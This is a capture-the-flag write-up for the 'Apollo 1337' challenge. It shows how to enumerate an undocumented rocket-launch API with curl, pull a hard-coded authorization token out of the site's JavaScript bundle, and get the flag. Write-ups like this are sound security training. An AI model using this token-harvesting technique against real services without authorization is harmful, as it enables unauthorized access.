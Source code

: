 # Apollo 1337

## Challenge:

Hey there intern! We have a rocket launch scheduled for noon today and the launch interface is down. You'll need to directly use the API to launch the rocket. No, we don't have any documentation. And quickly, our shareholders are watching!

**Website**

https://space.sdc.tf/

## Solution:

The site has a `500` error, with widgets alerting us to the status of the frontend and backend applications:

<img src="apollo.png" alt="Galveston, we've had a problem." width="600">

The backend status doesn't appear right away, telling us that an API is being hit behind the scenes to populate the widget.

If we check the network traffic request, we can see a `GET` to `https://space.sdc.tf/api/status?verbose=`:

```json
{
  "status": "health",
  "longStatus": "Healthy. All routes are functioning properly.",
  "version": "1.0.0",
  "routes": [
    {
      "path": "/status",
      "status": "healthy"
    },
    {
      "path": "/rocketLaunch",
      "status": "healthy"
    },
    {
      "path": "/fuel",
      "status": "healthy"
    }
  ]
}
```

That gives us a few more endpoints to look at.

Checking `/fuel` gives us names of 6 different pumps:

```json
[
  {
    "name": "west1 pump",
    "id": 0
  },
  ...
  {
    "name": "lil pump",
    "id": 5
  }
]
```

But `/rocketLaunch` tells us we're getting closer:

```json
request body must be json
```

Let's give that a try:

```bash
$ curl -H 'Content-Type: application/json' https://space.sdc.tf/api/rocketLaunch -d '{"rocket": 0}'
rocket must be a string
$ curl ... '{"rocket": "0"}'
rocket not recognized (available: triton)
$ curl ... '{"rocket": "triton"}'
launchTime not specified
$ curl ... '{"rocket": "triton", "launchTime": 0}'
launchTime must be a string
$ curl ... '{"rocket": "triton", "launchTime": "0"}'
launchTime not in hh:mm format
$ curl ... '{"rocket": "triton", "launchTime": "12:12"}'
launchTime unapproved
```

After some trial and error we're getting there. We know the launch time is noon from our challenge text:

```bash
$ curl ... '{"rocket": "triton", "launchTime": "12:00"}'
fuel pumpID not specified
```

And we know the pumps from the `/fuel` endpoint:

```
$ curl ... '{"rocket": "triton", "launchTime": "12:00", "pumpID": 0}'
/fuel/0 is either not active or not above 50% capacity
...
$ curl ... '{"rocket": "triton", "launchTime": "12:00", "pumpID": 4}'
frontend authorization token not specified
```

It looks like the last bit of the puzzle is our authorization token.

We can try the Cloudflare `__cfduid` cookie set on the home page:

```
$ curl ... '{"rocket": "triton", "launchTime": "12:00", "pumpID": 4, "token": "dff471399c41b03e6304fc54206d5bd4c1620577544"}'
frontend authorization token invalid
```

That didn't work, but we know that this is a JavaScript frontend application. Maybe there's a token embedded in the source code.

Searching each JavaScript include for `token`, we eventually come across [index-25d435e5ad95f79f3af3.js](https://space.sdc.tf/_next/static/chunks/pages/index-25d435e5ad95f79f3af3.js):

```javascript
(e.headers={Token:"yiLYDykacWp9sgPMluQeKkANeRFXyU3ZuxBrj2BQ"})
```

Now we can pass this authorization token to our request:

```json
$ curl ... '{"rocket": "triton", "launchTime": "12:00", "pumpID": 4, "token": "yiLYDykacWp9sgPMluQeKkANeRFXyU3ZuxBrj2BQ"}'
rocket launched. sdctf{0ne_sM@lL_sT3p_f0R_h@ck3r$}
```

And we get our flag: `sdctf{0ne_sM@lL_sT3p_f0R_h@ck3r$}`.
